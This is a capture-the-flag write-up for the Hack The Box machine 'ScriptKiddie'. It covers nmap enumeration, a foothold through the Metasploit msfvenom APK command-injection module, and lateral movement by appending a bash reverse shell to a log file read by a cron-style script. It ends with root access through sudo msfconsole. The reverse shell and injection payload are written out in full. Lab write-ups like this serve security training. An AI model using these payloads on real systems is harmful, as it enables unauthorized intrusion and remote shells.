

Target: 10.10.10.226

## Enumeration:

nmap
```
$ nmap -sC -sV 10.10.10.226

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 06:11 PDT
Nmap scan report for 10.10.10.226
Host is up (0.047s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

checking 10.10.10.226:5000



### Findings:Looking for attack vectors

The website can run nmap, msfvenom, and searchsploit.
Look for possible exploits for these three services.


## Foothold:

This module exploits a command injection vulnerability in Metasploit Framework’s msfvenom payload generator when using a crafted APK file as an Android payload template. Affects Metasploit Framework <= 6.0.11 and Metasploit Pro <= 4.18.0. The file produced by this module is a relatively empty yet valid-enough APK file. To trigger the vulnerability, the victim user should do the following: msfvenom -p android/ -x

[Exploit Link](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection.rb)

Metasploit
```
$ msfconsole
```

```
search msfvenom
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
set LHOST tun0
run
[+] msf.apk stored at /home/kali/.msf4/local/msf.apk
```

upload the file in template


opening a nc listener on port 4444
```
$ nc -lnvp 4444
```

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
kid@scriptkiddie:~$ id

uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

```
kid@scriptkiddie:~$ cat user.txt

<redacted>
```


## Lateral Movement:

looking for suspicious file/s
```
kid@scriptkiddie:~$ cd /home

kid@scriptkiddie:/home$ ls

pwn  kid

kid@scriptkiddie:/home$ cd pwn

kid@scriptkiddie:/home/pwn$ ls -la

total 44
drwxr-xr-x 6 pwn  pwn  4096 Feb  3 12:06 .
drwxr-xr-x 4 root root 4096 Feb  3 07:40 ..
lrwxrwxrwx 1 root root    9 Feb  3 12:06 .bash_history -> /dev/null
-rw-r--r-- 1 pwn  pwn   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 pwn  pwn  3771 Feb 25  2020 .bashrc
drwx------ 2 pwn  pwn  4096 Jan 28 17:08 .cache
drwxrwxr-x 3 pwn  pwn  4096 Jan 28 17:24 .local
-rw-r--r-- 1 pwn  pwn   807 Feb 25  2020 .profile
-rw-rw-r-- 1 pwn  pwn    74 Jan 28 16:22 .selected_editor
drwx------ 2 pwn  pwn  4096 Feb 10 16:10 .ssh
drwxrw---- 2 pwn  pwn  4096 Feb  3 12:00 recon
-rwxrwxr-- 1 pwn  pwn   250 Jan 28 17:57 scanlosers.sh

kid@scriptkiddie:/home/pwn$ cat scanlosers.sh 

#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

```

scanloser.sh assign /home/kid/logs/hackers to variable log then prints out its content then is piped to cut to remove the delimeter ' ' starting on the 3rd field onwards then is piped to sort to only see unique (no repeating) then is peiped to a while loop to read as ip and do a nmap scan to the ip.

opening another nc listener on port 4242
```
$ nc -lnvp 4242
```

crafting a reverse shell
```
kid@scriptkiddie:/home/pwn$ echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/<ip>/4242 0>&1' #" >> /home/kid/logs/hackers
```

```
pwn@scriptkiddie:~$ id

uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
```


## Priv Escalations:

```
pwn@scriptkiddie:~$ sudo -l

Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

```
pwn@scriptkiddie:~$ sudo msfconsole
```

```
msf6 > id

uid=0(root) gid=0(root) groups=0(root)
```

```
msf6 > cat /root/root.txt

<redacted>
```
